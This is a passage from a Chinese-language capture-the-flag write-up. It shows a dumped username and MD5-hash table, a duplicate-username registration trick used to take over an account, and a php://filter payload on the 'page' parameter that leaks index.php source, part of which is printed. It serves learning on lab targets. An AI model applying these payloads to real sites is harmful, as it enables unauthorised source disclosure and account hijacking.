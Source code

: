得到 

```
+-------------------------------------------+-------------+
| password                                  | username    |
+-------------------------------------------+-------------+
| 2f8667f381ff50ced6a3edc259260ba9          | cc3tlwDmIn23|
| 21232f297a57a5a743894a0e4a801fc3 (admin)  | admin       |
+-------------------------------------------+-------------+
```

其中admin是自己注册的。。。。

password md5加密。。。。。。

既然说注册页面也有bug,又把玩了一下注册逻辑

结果发现可以用户名可以重复。。。。。。

然后再注册一个cc3tlwDmIn23登陆就完事了

## 0x03 ics-05

一开始找不到注入的参数。。。。

点了一下标题找到了

试了一下发现可以直接回显要的东西，

比如page=index.php会返回ok

试一下伪协议读取index.php，

```
payload=?page=php://filter/read=convert.base64-encode/resource=index.php
```

得到源码

```
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
····
<?php

$page = $_GET[page];

if (isset($page)) {



if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
```
